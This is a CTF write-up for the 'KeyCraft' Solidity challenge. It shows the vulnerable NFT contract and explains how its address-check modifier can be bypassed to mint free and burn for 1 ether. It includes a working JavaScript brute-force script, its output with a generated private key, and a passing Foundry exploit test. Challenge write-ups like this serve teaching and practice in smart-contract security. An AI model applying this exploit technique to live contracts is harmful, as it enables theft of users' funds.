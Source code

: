 # KeyCraft

*Uncover the hidden hex values within addresses to access NFT minting or face the cost of 1 ether in this exciting CTF challenge!*

## Objective of CTF

You are provided with 0 ether. After the hack you should have 1 ether.

## Instructions:

1. Paste your address in place of <Your Address> in the setUp() function
2. Give your solution in //Solution marked space in testKeyCraft() function.

---

Contract Code:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.19;

import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

contract KeyCraft is ERC721 {
    uint256 totalSupply;
    address owner;
    bool buyNFT;

    constructor(string memory _name, string memory _symbol) ERC721(_name, _symbol) {
        _mint(msg.sender, totalSupply++);
        owner = msg.sender;
    }

    modifier checkAddress(bytes memory b) {
        bool q;
        bool w;

        if (msg.sender == owner) {
            buyNFT = true;
        } else {
            uint256 a = uint160(uint256(keccak256(b)));
            q = (address(uint160(a)) == msg.sender);

            a = a >> 108;
            a = a << 240;
            a = a >> 240;

            w = (a == 13057);
        }

        buyNFT = (q && w) || buyNFT;
        _;
        buyNFT = false;
    }

    function mint(bytes memory b) public payable checkAddress(b) {
        require(msg.value >= 1 ether || buyNFT, "Not allowed to mint.");
        _mint(msg.sender, totalSupply++);
    }

    function burn(uint256 tok) public {
        address a = ownerOf(tok);
        require(msg.sender == a);
        _burn(tok);
        totalSupply--;
        payable(a).transfer(1 ether);
    }
}

```



## The Attack

To mint a token without spending 1 ether, you have to utilize the modifier **checkAddress(bytes memory b)**. Within the code, the expression **address(uint160(uint256(keccak256(b))))** is employed in Solidity to generate an Ethereum address from an ECDSA Public Key. The condition q is only satisfied when a valid public key is passed.

To proceed, you need to find an address and public key combination that produces the value **13057** after performing three specific bitwise operations. This can be accomplished by adjusting the derivation path used to generate the addresses and performing the following shifting operations:

1. Shift a right by 108 bits: **a = a >> 108**;
2. Shift a left by 240 bits: **a = a << 240**;
3. Shift a right by 240 bits: **a = a >> 240**;

To attain the desired result, modify the index of the derivation path used for generating addresses and verify the outcome by performing and comparing the above shifting operations using a JavaScript code snippet based on the mnemonic phrase.

### STEPS
1. Prepare js code to generate address and public key, which give you **13057** after the shifting operations
2. Pass the generated public key as a parameter to **mint()** method
3. call **burn()** method with token id, which will transfer 1 ETH to your address

## Proof of Concept

The JS script is as follows:

```javascript
const { ethers } = require('ethers');

// Generate random mnemonic
const randomMnemonic = ethers.Wallet.createRandom().mnemonic;

// Derive HDNode from mnemonic
const hdNode = ethers.utils.HDNode.fromMnemonic(randomMnemonic.phrase);

// Generate addresses based on derivation index
const derivationPath = "m/44'/60'/0'/0"; 

for (let i = 0; i >= 0; i++) {
    const derivedNode = hdNode.derivePath(`${derivationPath}/${i}`);
    const wallet = new ethers.Wallet(derivedNode.privateKey);

    // There are multiple ways to generate the ETH address from ECDSA public key
    // We are using the same implimentation in the solidity code. 
    // Perform keccak256 hash on the public key
    const hash = ethers.utils.keccak256(wallet.publicKey);

    // Convert the hash to an Ethereum address
    const address = ethers.utils.getAddress("0x" + hash.slice(26));

    // Convert hash to uint256
    const aUint256 = ethers.BigNumber.from(hash);

    // Convert a to uint160 and perform right shift with 108
    let aUint160 = aUint256.mod(ethers.BigNumber.from(2).pow(160));
    aUint160 = aUint160.shr(108);

    // aUint160.shr(240) will not give the expected result like in the solidity code,
    // so we have to do the shifting operations on BigInt numbers
    
    // Convert aUint160 and 240 into a BigInt 
    const a = BigInt(aUint160);
    const shiftAmount = BigInt(240);

    // Perform the right shift operation using BigInt arithmetic
    let shiftedResult = a * (BigInt(2) ** shiftAmount);
    shiftedResult = shiftedResult % (BigInt(2) ** BigInt(256));
    shiftedResult = shiftedResult >> shiftAmount;

    console.log(`shiftedResult is ${shiftedResult.toString()}`);

    if (shiftedResult.toString() == '13057') {
        console.log({
            address,
            publicKey: wallet.publicKey,
            privateKey: wallet.privateKey
        });
        break;
    }
}
```
### Output

```json
  {
    address: '0x504C3bd2d330170a1AE0a48C377007b906D4B998',
    publicKey: '0x0465e5ecb71749c4d7236dfa7ff7f1cbed66b03914ee49369f54386e95fa6823ad590e40ba17d8dd0205d80f5acb7e6cefb6199383b8ed47e7f07e14dcca96dafa',
    privateKey: '0x7cbae7f5e8bd98d152015097b41ddfc6bbd83de6607cad817923562dbab78244'
  }
```

The Foundry setup is as follows:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/KeyCraft.sol";

contract KC is Test {
    KeyCraft k;
    address owner;
    address user;
    address attacker;

    function setUp() public {
        owner = makeAddr("owner");
        user = makeAddr("user");
        // Pass the address generated by the address generation script
        // address: '0x504C3bd2d330170a1AE0a48C377007b906D4B998'
        attacker = 0x504C3bd2d330170a1AE0a48C377007b906D4B998;

        vm.deal(user, 1 ether);

        vm.startPrank(owner);
        k = new KeyCraft("KeyCraft", "KC");
        vm.stopPrank();

        vm.startPrank(user);
        k.mint{value: 1 ether}(hex"dead");
        vm.stopPrank();
    }

    function testKeyCraft() public {
        vm.startPrank(attacker);

        //Solution
        // Pass the public key generated by the address generation script
        // publicKey: '0x0465e5ecb71749c4d7236dfa7ff7f1cbed66b03914ee49369f54386e95fa6823ad590e40ba17d8dd0205d80f5acb7e6cefb6199383b8ed47e7f07e14dcca96dafa'

        k.mint(
            hex"0465e5ecb71749c4d7236dfa7ff7f1cbed66b03914ee49369f54386e95fa6823ad590e40ba17d8dd0205d80f5acb7e6cefb6199383b8ed47e7f07e14dcca96dafa"
        );

        // Pass tok as 2, becasue user already minted tokenid 1
        k.burn(2);
        vm.stopPrank();
        assertEq(attacker.balance, 1 ether);
    }
}

```
### Output

```cmd
Running 1 test for test/KeyCraft.t.sol:KC
[PASS] testKeyCraft() (gas: 81980)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.48ms
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


